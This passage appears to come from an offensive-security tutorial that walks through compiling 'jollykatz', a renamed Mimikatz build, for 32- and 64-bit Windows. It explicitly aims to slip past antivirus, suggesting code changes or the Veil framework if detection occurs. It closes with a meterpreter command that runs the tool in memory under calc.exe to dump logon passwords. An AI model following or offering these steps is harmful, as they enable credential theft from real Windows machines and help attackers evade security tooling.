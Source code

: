 - In the "Solution Explorer" window on the right, expand "global files" -> "lib" -> right-click on "Win32" and select "Add" -> "Existing Item"
- Choose "C:\\jollykatz\\jollykatz-master\\lib\\Win32\\EncodePointer.lib"
- In the "Solution Explorer" window on the right, expand "global files" -> "lib" -> right-click on "x64" and select "Add" -> "Existing Item"
- Choose "C:\\jollykatz\\jollykatz-master\\lib\\x64\\EncodePointer.lib"

- In the "Solution Explorer" window on the right, right-click on "jollykatz" (might have to scroll to bottom) and select "Properties"
- Expand "Configuration Properties" -> "General" -> Set "Use of MFC" to "Use Standard Windows Libraries"
- Click "Apply" in the bottom
- Expand "Configuration Properties" -> "C/C++" -> "Code Generation" -> Set "Runtime Library" to "Multi-threaded (/MT)"
- Click "Apply" in the bottom
- Expand "Configuration Properties" -> "Linker" -> "Input" -> Add "EncodePointer.lib;" at the start of "Additional Dependencies" (in front of "advapi32.lib")
- Click "OK" in the bottom

- In the top menu bar, click "Build" -> "Rebuild Solution"

NOTE: You should see "Rebuild All: 3 succeeded, 0 failed, 0 up-to-date, 0 skipped"

NOTE: This means that the 32-bit build succeeded!

- In the top bar, next to "Release", change "Win32" to "x64"
- In the top menu bar, click "Build" -> "Rebuild Solution"

NOTE: You should see "Rebuild All: 3 succeeded, 0 failed, 0 up-to-date, 0 skipped"

NOTE: This means that the 64-bit build succeeded!

NOTE: You should now see 5 files in the C:\\jollykatz\\jollykatz-master\\Win32\\ directory, of which you will need 3:

- jollykatz.exe
- jollylib.dll
- jollydrv.sys

NOTE: You should see the same file structure in the C:\\jollykatz\\jollykatz-master\\x64\\ directory

Copy and rename C:\\jollykatz\\jollykatz-master\\Win32\\jollykatz.exe to C:\\jollykatz\\jollykatz32.exe

Copy and rename C:\\jollykatz\\jollykatz-master\\x64\\jollykatz.exe to C:\\jollykatz\\jollykatz64.exe

NOTE: Typically, you only need jollykatz.exe, the driver (jollydrv.sys) and library (jollylib.dll) files are optional. If you need the drivers, copy and rename them as well.

NOTE: Hopefully, your antivirus won't pick up on the new jollykatz.exe files. If it does, you'll need to modify some code. Or use the Veil framework.

#### Run Mimikatz from memory through meterpreter (advisable):

{% highlight shell_session %}
execute -H -i -c -m -d calc.exe -f jollykatz.exe -a '"privilege::debug" "sekurlsa::logonPasswords full" "exit"'
{% endhighlight %}
